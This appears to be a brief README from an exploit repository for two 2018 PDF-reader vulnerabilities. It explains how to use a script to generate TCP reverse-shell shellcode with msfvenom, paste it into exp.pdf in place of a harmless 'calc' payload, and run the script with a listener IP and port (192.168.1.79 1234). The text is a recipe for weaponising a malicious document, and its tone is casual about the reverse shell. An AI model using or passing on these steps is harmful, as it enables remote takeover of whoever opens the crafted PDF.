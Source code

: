 ### 2018-9948-9958-exp
- 'get_shellcode_from_msf.py" is a python script to get shellcode from msfvenom, then copy the output to the exp.pdf replace the 'calc' shellcode block, and finally it works. Ooooops, it's a tcp reverse shellcode.
- a sample code is like this: python get_shellcode_from_msf.py 192.168.1.79 1234
